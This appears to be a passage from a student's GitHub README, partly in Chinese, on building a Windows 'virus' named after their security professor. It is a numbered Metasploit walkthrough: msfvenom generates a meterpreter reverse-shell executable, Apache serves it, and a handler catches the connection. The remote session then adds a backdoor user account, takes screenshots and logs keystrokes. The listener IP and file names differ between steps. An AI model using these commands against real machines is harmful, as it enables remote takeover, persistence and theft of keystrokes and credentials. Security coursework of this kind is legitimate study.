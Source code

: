 #### Jimmy是教我資安的教授，我用他的名字來命名病毒(我真的很感謝他帶我踏入資安)

#### [Case 1: (55) Detected on virustotal] only msfvenom
    1_[kali]#> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.86.246 LPORT=8888 -f exe > /var/www/html/jimmy1.exe
    2_[kali]#> service apache2 start
    3_[kali]#> msfconsole
    4_[kali]msf> use exploit/multi/handler
    5_[kali]msf> set payload windows/meterpreter/reverse_tcp
    6_[kali]msf> set lhost 10.0.0.43
    7_[kali]msf> set lport 8888
    8_[kali]msf> run
    9_[windows] http://10.0.0.43/virus1.exe
    10_[windows]execute virus1.exe
    11_[kali]meterpreter > shell  
    12_net user /add jimmy 123456
    13_[kali]meterpreter > screenshot 
    14_[kali]meterpreter > keyscan_start
    15_[kali]meterpreter > keyscan_dump
    16_[kali]meterpreter > keyscan_stop

